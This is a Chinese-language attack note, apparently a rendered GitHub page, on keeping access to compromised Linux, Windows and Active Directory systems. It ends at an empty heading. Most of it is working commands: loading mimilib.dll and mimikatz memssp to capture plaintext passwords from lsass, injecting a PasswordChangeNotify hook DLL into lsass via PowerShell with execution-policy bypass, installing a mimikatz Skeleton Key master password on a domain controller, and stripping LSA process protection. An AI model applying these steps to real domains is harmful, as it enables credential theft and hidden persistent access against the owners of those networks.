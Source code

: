 ### 保持权限

这块儿东西太多，只能简单提下，有机会单独撰文分析。

##### Linux后门
webshell，rootkit，改普通用户权限，在某些服务和软件上做手脚，添加ssh-key，添加键盘钩子。

##### Win后门
webshell，劫持dll，劫持在login界面能触发的软件，添加隐藏用户，克隆用户，加远控，powershel脚本，各种票据，开盘符共享，在某些服务和软件上做手脚，添加键盘钩子。

##### 维持域控权限

1.直接获取lsass.exe（SSP）中的明文密码：
修改域控注册表位置，在Security Packages下添加mimilib.dll：
```
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security Packages\
```
域控重启后在c:\windows\system32可看到新生成的文件kiwissp.log，里面记录了密码。
mimikatz同时还支持通过内存更新ssp，这样就不需要重启再获取账户信息：

```
privilege::debug
misc::memssp
```

2.Hook PasswordChangeNotify无痕，不需要重启和修改注册表，生成dll注入的powershell脚本：
```
https://github.com/clymb3r/Misc-Windows-Hacking/blob/master/HookPasswordChange/Debug/HookPasswordReset.dll

https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1
在代码尾部添加如下代码：
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll –procname lsass
并命名为HookPasswordChangeNotify.ps1

上传HookPasswordChangeNotify.ps1和HookPasswordChange.dll，管理员权限执行：
PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
```
域控更新密码后（手动），在C:\Windows\Temp下可以找到passwords.txt，其中记录了新修改的密码。

3.Skeleton Key（不需要域控重启）
正常登录域控：

```
net use \\WIN-8VVLRPIAJB0.test.local 12345678!Q /user:a@test.local
dir \\WIN-8VVLRPIAJB0.test.local\c$
```
mimikatz在域控上安装Skeleton Key：


```
privilege::debug
misc::skeleton
```
使用Skeleton Key登录，mimikatz的默认Skeleton Key设置为mimikatz，权限不变，只是万能密码：
```
net use */del /y
net use \\WIN-8VVLRPIAJB0.test.local mimikatz /user:a@test.local
dir \\WIN-8VVLRPIAJB0.test.local\c$
```
4.绕过LSA保护策略，似乎需要自带的mimidrv.sys文件：
```
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
```
本地组策略禁用一些重要组件后，使用mimikatz绕过：
